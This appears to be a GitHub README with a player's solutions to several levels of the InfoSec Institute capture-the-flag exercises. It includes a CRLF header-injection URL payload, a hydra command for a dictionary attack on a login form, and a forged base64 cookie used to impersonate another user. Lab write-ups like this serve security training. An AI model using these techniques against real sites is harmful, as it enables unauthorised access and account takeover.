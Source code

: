 # InfoSecInstituteCTF
I wanted to go from the hardest but anyway the order is mixed

# Level13
Try adding a remote URL in the appropriate GET parameter

It's pretty strange that level13 leads to ex13-task.php, while others lead to ex#.php :)
Lets visit exp13.php
"Get a Hint"

Lets try few tricks :


http://ctf.infosecinstitute.com/ctf2/exercises/ex13-task.php?redirect=test


Nothing


http://ctf.infosecinstitute.com/ctf2/exercises/ex13.php?redirect=test


Bingo :)
Now we have to inject the header :


http://ctf.infosecinstitute.com/ctf2/exercises/ex13.php?redirect=%0d%0a%20CostumHeader:INJECTED



# Level12


This was a very easy one, dictionary attack on POST request, lets hit hydra :)


https://i.imgur.com/pzbvkWd.png


Command:


hydra ctf.infosecinstitute.com http-form-post"/ctf2/exercises/ex12.php:username=^USER^&password=^PASS^&logIn=Login:combination" -L users.txt -P password.txt -t 10 -w 30 -o hydra-http-post-attack.txt



# Level11

This is getting easier and easier, We've been blacklisted, and hint says it all.

Check the header, change no to yes, and that is it :)


# Level10


Hate DOM XSS /skip



# Level 9


As we where logged in we had to check the cookie, to see whats going on, and you can notice user=Sk9ITitET0U%3D.


%3D equals "=" so this could be base64, decoding it we get "JOHN+DOE". Next step encode "MARY+JANE" = "TUFSWStKQU5F"



# Level8 

Too lazy...



